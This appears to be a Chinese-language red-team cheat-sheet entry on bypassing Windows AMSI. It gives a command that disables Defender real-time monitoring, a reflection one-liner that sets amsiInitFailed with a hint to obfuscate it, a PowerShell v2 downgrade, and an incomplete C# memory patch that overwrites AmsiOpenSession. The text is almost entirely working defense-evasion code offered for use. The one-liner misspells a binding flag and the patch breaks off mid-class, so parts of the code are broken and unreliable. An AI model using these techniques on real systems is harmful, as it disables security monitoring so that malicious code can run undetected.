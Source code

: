 


# 16.Bypass AMSI

[How to Bypass AMSI ](https://0range-x.github.io/2022/01/23/AMSI/)

管理员权限关闭amsi

~~~powershell
Set-MpPreference -DisableRealtimeMonitoring $true
~~~

### 一键关闭AMSI

~~~powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPubilc,Static').SetValue($null,$true)
~~~

被加黑了，可以混淆过

### powershell降级

~~~
powershell.exe -version 2   //改变powershell运行版本
~~~



### 内存补丁

~~~c#
$p=@"
using System;
using System.Linq;
using System.Runtime.InteropServices;
public class Program
{
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern IntPtr VirtualProtect(IntPtr lpAddress, UIntPtr dwSize,
uint flNewProtect, out uint lpfloldProtect);
public static void Bypass()
{
String a =
"isma";
IntPtr lib = LoadLibrary(String.Join(""
, a.Reverse().ToArray()) +
"
.dll");
IntPtr addr = GetProcAddress(lib,
"AmsiOpenSession");
uint old = 0;
byte[] p;
p = new byte[6];
p[0] = 0xB8;
p[1] = 0xFF;
p[2] = 0xFF;
p[3] = 0xFF;
p[4] = 0xFF;
p[5] = 0xC3;
VirtualProtect(addr, (UIntPtr)p.Length, 0x04, out old);
Marshal.Copy(p, 0, addr, p.Length);
VirtualProtect(addr, (UIntPtr)p.Length, old, out old);
~~~